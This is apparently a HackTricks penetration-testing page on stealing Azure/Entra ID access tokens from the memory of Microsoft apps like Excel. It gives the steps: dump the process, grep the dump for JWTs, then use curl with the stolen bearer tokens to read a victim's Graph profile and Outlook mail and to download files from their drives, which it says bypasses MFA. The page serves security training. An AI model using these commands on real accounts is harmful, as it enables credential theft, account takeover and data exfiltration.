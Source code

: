 # Az - Processes Memory Access Token

{{#include ../../../banners/hacktricks-training.md}}

## **Basic Information**

As explained in [**this video**](https://www.youtube.com/watch?v=OHKZkXC4Duw), some Microsoft software synchronized with the cloud (Excel, Teams...) might **store access tokens in clear-text in memory**. So just **dumping** the **memory** of the process and **grepping for JWT tokens** might grant you access over several resources of the victim in the cloud bypassing MFA.

Steps:

1. Dump the excel processes synchronized with in EntraID user with your favourite tool.
2. Run: `string excel.dmp | grep 'eyJ0'` and find several tokens in the output
3. Find the tokens that interest you the most and run tools over them:

```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
┌──(magichk㉿black-pearl)-[~]
└─$ curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```

**Note that these kind of access tokens can be also found inside other processes.**

{{#include ../../../banners/hacktricks-training.md}}




